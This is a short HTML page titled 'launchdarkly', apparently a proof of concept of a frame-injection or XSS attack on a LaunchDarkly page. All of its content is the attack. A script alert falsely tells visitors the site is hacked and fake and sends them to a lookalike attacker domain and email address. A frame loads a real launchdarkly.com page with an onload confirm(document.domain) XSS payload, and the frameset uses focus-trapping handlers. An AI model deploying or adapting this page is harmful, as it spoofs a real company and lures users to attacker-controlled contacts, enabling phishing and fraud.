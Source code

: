 # launchdarkly
<html>
<head>
<script>alert('Important! This Website Has Hacked And Not Working Anymore, do not try to visit it again, It is a fake website  , Please Visit Our New Website: https://www.attacker-launchdarkly.net Or Contact us at attacker-launchdarkly@gmail.com ')</script>
	<frameset onload="this.focus()" onblur="this.focus()">
	
	<frame src="https://whatsnew.launchdarkly.com/en?category=announcement" onload=confirm(document.domain)/>
	
	</frameset>
	
</head>
<body>

</body>

</html>
